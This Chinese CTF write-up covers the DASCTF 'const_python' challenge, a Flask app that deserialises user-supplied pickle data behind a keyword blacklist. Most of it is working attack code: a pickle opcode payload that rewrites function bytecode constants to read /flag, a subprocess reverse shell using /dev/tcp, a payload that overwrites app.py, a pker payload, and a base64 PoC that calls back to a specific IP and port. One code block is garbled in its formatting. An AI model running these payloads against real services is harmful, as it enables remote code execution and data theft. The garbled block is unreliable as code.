


# Pickle反序列化中的字节码重写绕过-先知社区

> **来源**: https://xz.aliyun.com/news/16453  
> **文章ID**: 16453

---

## DASCTF-const\_python

自认为搭建了一个完美的web应用，不会有问题，很自信地在src存放了源码，应该不会有人能拿到/flag的内容。

所给源码如下

```
import builtins
import io
import sys
import uuid
from flask import Flask, request, jsonify, session
import pickle
import base64


app = Flask(__name__)

app.config["SECRET_KEY"] = str(uuid.uuid4()).replace("-", "")


class User:
    def __init__(self, username, password, auth="ctfer"):
        self.username = username
        self.password = password
        self.auth = auth


password = str(uuid.uuid4()).replace("-", "")
Admin = User("admin", password, "admin")


@app.route("/")
def index():
    return "Welcome to my application"


@app.route("/login", methods=["GET", "POST"])
def post_login():
    if request.method == "POST":

        username = request.form["username"]
        password = request.form["password"]

        if username == "admin":
            if password == admin.password:
                session["username"] = "admin"
                return "Welcome Admin"
            else:
                return "Invalid Credentials"
        else:
            session["username"] = username

    return """
        <form method="post">
        <!-- /src may help you>
            Username: <input type="text" name="username"><br>
            Password: <input type="password" name="password"><br>
            <input type="submit" value="Login">
        </form>
    """


@app.route("/ppicklee", methods=["POST"])
def ppicklee():
    data = request.form["data"]

    sys.modules["os"] = "not allowed"
    sys.modules["sys"] = "not allowed"
    try:

        pickle_data = base64.b64decode(data)
        for i in {
            "os",
            "system",
            "eval",
            "setstate",
            "globals",
            "exec",
            "__builtins__",
            "template",
            "render",
            "\\",
            "compile",
            "requests",
            "exit",
            "pickle",
            "class",
            "mro",
            "flask",
            "sys",
            "base",
            "init",
            "config",
            "session",
        }:
            if i.encode() in pickle_data:
                return i + " waf !!!!!!!"

        pickle.loads(pickle_data)
        return "success pickle"
    except Exception as e:
        return "fail pickle"


@app.route("/admin", methods=["POST"])
def admin():
    username = session["username"]
    if username != "admin":
        return jsonify({"message": "You are not admin!"})
    return "Welcome Admin"


@app.route("/src")
def src():
    return open("app.py", "r", encoding="utf-8").read()


if __name__ == "__main__":
    app.run(host="0.0.0.0", debug=False, port=5000)

```

根据源码是pickle反序列化但是黑名单把很多函数过滤了，并且sys.modules的os和sys也被置换

#### 预期:使用types的CodeType修改常量字节码，修改返回的文件

思路也是覆盖app.py，使用types的CodeType修改常量字节码，修改函数读取的文件

```
types.CodeType(oCode.co_argcount, 
                                oCode.co_posonlyargcount, 
                                oCode.co_kwonlyargcount, 
                                oCode.co_nlocals, 
                                oCode.co_stacksize, 
                                oCode.co_flags,
                                oCode.co_code, 
                                oCode.co_consts,   # 需要的
                                oCode.co_names, 
                                oCode.co_varnames,
                                oCode.co_filename,
                                oCode.co_name, 
                                oCode.co_firstlineno, 
                                oCode.co_lnotab,
                                oCode.co_freevars,
                                oCode.co_cellvars,)
```

co\_consts是我们需要的覆盖的文件名字

```
def src():
    return  open("app.py", "r",encoding="utf-8").read()

oCode = src.__code__.co_consts
print(oCode)

```



然后就能看懂官方wp了

最终opcode实际做的操作如下

```
def src():
    return  open("app.py", "r",encoding="utf-8").read()

oCode = src.__code__
src.__code__= types.CodeType(oCode.co_argcount, 
                                oCode.co_posonlyargcount, 
                                oCode.co_kwonlyargcount, 
                                oCode.co_nlocals, 
                                oCode.co_stacksize, 
                                oCode.co_flags,
                                oCode.co_code, 
                                (None, '/flag', 'r', 'utf-8', ('encoding',))
                                oCode.co_names, 
                                oCode.co_varnames,
                                oCode.co_filename,
                                oCode.co_name, 
                                oCode.co_firstlineno, 
                                oCode.co_lnotab,
                                oCode.co_freevars,
                                oCode.co_cellvars,)

```

`__code__` 属性是 Python 函数的一个内部对象，提供了关于该函数编译信息的详细信息。它包括许多关于该函数的信息，如字节码、参数等。常见的属性包括：

* `co_argcount`：函数的参数数量。
* `co_varnames`：函数的局部变量名。
* `co_code`：字节码。
* `co_consts`：常量池（函数中使用的常量）。
* `co_names`：函数中引用的名称（例如，函数调用的其他函数名称）。
* `co_filename`：函数所在的文件名。  
  通过这个代码查看co\_const  
  ```python  
  import builtins  
  import types

def src():  
return open("app.py", "r",encoding="utf-8").read()  
for i in src.**code**.**dir**():  
print(f"{i} : {getattr(src.**code**, i)}")

g1 = builtins.getattr  
g2 = getattr(src,"**code**")  
g3 = getattr(g2,"co\_argcount")  
g4 = getattr(g2,"co\_posonlyargcount")  
g5 = getattr(g2,"co\_kwonlyargcount")  
g6 = getattr(g2,"co\_nlocals")  
g7 = getattr(g2,"co\_stacksize")  
g8 = getattr(g2,"co\_flags")  
g9 = getattr(g2,"co\_code")  
g10 = (None, 'flag', 'r', 'utf-8', ('encoding',))#g10 = getattr(g2,"co\_consts")  
g11 = getattr(g2,"co\_names")  
g12 = getattr(g2,"co\_varnames")  
g13 = getattr(g2,"co\_filename")  
g14 = getattr(g2,"co\_name")  
g15 = getattr(g2,"co\_firstlineno")  
g16 = getattr(g2,"co\_lnotab")  
g17 = getattr(g2,"co\_freevars")  
g18 = getattr(g2,"co\_cellvars")

g19 = types.CodeType(g3,g4,g5,g6,g7,g8,g9,g10,g11,g12,g13,g14,g15,g16,g17,g18)  
g20 = builtins.setattr  
g20(src,"**code**",g19)  
print(src())

```
构造payloads
```python
op3 = b'''cbuiltins
getattr
p0
c__main__
src
p3
g0
(g3
S'__code__'
tRp4
g0
(g4
S'co_argcount'
tRp5
g0
(g4
S'co_argcount'
tRp6
g0
(g4
S'co_kwonlyargcount'
tRp7
g0
(g4
S'co_nlocals'
tRp8
g0
(g4
S'co_stacksize'
tRp9
g0
(g4
S'co_flags'
tRp10
g0
(g4
S'co_code'
tRp11
(NS'/flag'
S'r'
S'utf-8'
(S'encoding'
ttp12
g0
(g4
S'co_names'
tRp13
g0
(g4
S'co_varnames'
tRp14
g0
(g4
S'co_filename'
tRp15
g0
(g4
S'co_name'
tRp16
g0
(g4
S'co_firstlineno'
tRp17
g0
(g4
S'co_lnotab'
tRp18
g0
(g4
S'co_freevars'
tRp19
g0
(g4
S'co_cellvars'
tRp20
ctypes
CodeType
(g5
I0
g7
g8
g9
g10
g11
g12
g13
g14
g15
g16
g17
g18
g19
g20
tRp21
cbuiltins
setattr
(g3
S"__code__"
g21
tR.'''
```

#### 非预期

通过翻阅发现subprocess没被过滤，可以非预期

```
import pickle
import base64
import subprocess


class A():

    def __reduce__(self):
        return (subprocess.run,(["bash","-c","bash -i >& /dev/tcp/ip/port 0>&1"],))

a = A()
b = pickle.dumps(a)
print(base64.b64encode(b))

```

或者覆盖app.py利用读源码路由也可以利用成功

```
import os
import builtins
import pickle
import base64
import subprocess
class A():
    def __reduce__(self):
        return (subprocess.check_output, (["cp","/flag","/app/app.py"],))
a=A()
b=pickle.dumps(a)
with open("1.png", "wb") as f:
     pickle.dump(a, f)
print(base64.b64encode(b))

```

#### pker利用

工具链接：[EddieIvan01/pker: Automatically converts Python source code to Pickle opcode](https://github.com/EddieIvan01/pker)  
可以使用builtins.open，有read，有write，可以读取`/flag`，然后写到`app.py`

payload

```
getattr = GLOBAL('builtins', 'getattr')

open = GLOBAL('builtins', 'open')
flag=open('/flag')
read=getattr(flag, 'read')
f=open('./app.py','w')
write=getattr(f, 'write')
fff=read()
write(fff)
return

```

然后pker生成字节码

```
python3 pker.py < 1.py
```

poc传参

```
data=gASVWQAAAAAAAACMCnN1YnByb2Nlc3OUjANydW6Uk5RdlCiMBGJhc2iUjAItY5SMLGJhc2ggLWkgPiYgL2Rldi90Y3AvMTI0LjIyMC4zNy4xNzMvMjMzMyAwPiYxlGWFlFKULg==
```


